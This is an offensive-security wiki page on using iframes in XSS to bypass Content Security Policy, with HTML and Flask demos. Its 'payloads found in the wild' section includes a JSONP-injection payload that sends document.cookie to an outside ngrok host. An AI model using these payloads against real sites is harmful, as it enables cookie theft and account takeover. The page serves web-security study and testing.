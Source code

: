 # Iframes in XSS, CSP and SOP





## Iframes in XSS

There are 3 ways to indicate the content of an iframed page:

* Via `src` indicating an URL (the URL may be cross origin or same origin)
* Via `src` indicating the content using the `data:` protocol
* Via `srcdoc` indicating the content

**Accesing Parent & Child vars**

```html
<html>
  <script>
  var secret = "31337s3cr37t";
  </script>

  <iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if2" src="child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

  <script>
  function access_children_vars(){
    alert(if1.secret);
    alert(if2.secret);
    alert(if3.secret);
    alert(if4.secret);
  }
  setTimeout(access_children_vars, 3000);
  </script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```

If you access the previous html via a http server (like `python3 -m http.server`) you will notice that all the scripts will be executed (as there is no CSP preventing it)., **the parent won’t be able to access the `secret` var inside any iframe** and **only the iframes if2 & if3 (which are considered to be same-site) can access the secret** in the original window.\
Note how if4 is considered to have `null` origin.

### Iframes with CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.
{% endhint %}

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../.gitbook/assets/image (372).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```

### Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### Iframe sandbox

The content within an iframe can be subjected to additional restrictions through the use of the `sandbox` attribute. By default, this attribute is not applied, meaning no restrictions are in place.

When utilized, the `sandbox` attribute imposes several limitations:

* The content is treated as if it originates from a unique source.
* Any attempt to submit forms is blocked.
* Execution of scripts is prohibited.
* Access to certain APIs is disabled.
* It prevents links from interacting with other browsing contexts.
* Use of plugins via `<embed>`, `<object>`, `<applet>`, or similar tags is disallowed.
* Navigation of the content's top-level browsing context by the content itself is prevented.
* Features that are triggered automatically, like video playback or auto-focusing of form controls, are blocked.

The attribute's value can be left empty (`sandbox=""`) to apply all the aforementioned restrictions. Alternatively, it can be set to a space-separated list of specific values that exempt the iframe from certain restrictions.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

## Iframes in SOP

Check the following pages:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}




